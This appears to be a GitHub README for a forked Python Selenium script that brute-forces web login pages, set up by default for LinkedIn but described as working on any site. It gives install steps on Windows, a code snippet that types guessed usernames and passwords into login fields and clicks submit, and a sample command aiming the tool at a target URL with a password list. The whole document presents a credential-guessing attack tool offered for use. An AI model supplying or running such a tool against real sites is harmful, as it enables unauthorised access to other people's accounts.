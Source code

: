 This Fork is Updateed old code to Python v3 and Selenium 4+

Step by Step for Installation on Windows Servers 2022

- Install Chrome : https://www.google.com/chrome/
- Install Python3 : https://www.python.org/downloads/windows/
  
  ✅ Check the box: "Add Python to PATH"
- Install Selenium : pip install selenium

![image](https://github.com/user-attachments/assets/fc090a1f-c411-404e-b47e-213296b3cd58)
- Download and Replace chromedriver : 
https://googlechromelabs.github.io/chrome-for-testing/#stable

Example : [chromedriver](https://storage.googleapis.com/chrome-for-testing-public/134.0.6998.165/win64/chromedriver-win64.zip)

![image](https://github.com/user-attachments/assets/d89971cc-618d-49e1-8ffd-b1c394b231bb)

- Clone the GitHub Repo
- Check with command python selenium-brute.py -h

![image](https://github.com/user-attachments/assets/7c7713b0-4532-4c42-9822-b0c68950d639)

- Run command

![image](https://github.com/user-attachments/assets/d3c487a9-81d8-4df0-8957-4c3c0f0e52a9)


---------------------------------------------------------
# Selenium-Brute-Force
A simple python script for doing brute-force attack using selenium.

## Help
- The default script is useful for Linkedin, but it works for everything. For other platforms, it needs to extract username id, password id, and login button class using browser inspector.

![](https://github.com/mohammadkamrani/Selenium-Brute-Force/blob/main/file/help.jpg)<br />

put them in code.
```python
username = driver.find_element_by_id("username")		
username.clear()
print("username: "+curuser)
username.send_keys(curuser)		
password = driver.find_element_by_id("password")
password.clear()
print("password: "+passw+"\n")
password.send_keys(passw)			
driver.find_element_by_class_name('login__form_action_container').click()
```
- check chromedriver version (87.0) with your chrome, if there is an incompatibility, use appropriate version here <br />
https://chromedriver.chromium.org/downloads
## Usage
To get a list of basic options and switches use:
```python
selenium-brute.py -h
```
sample:
```
selenium-brute.py -t https://target.com -u admin -p pass.txt
```
![](https://github.com/mohammadkamrani/Selenium-Brute-Force/blob/main/file/video.gif)

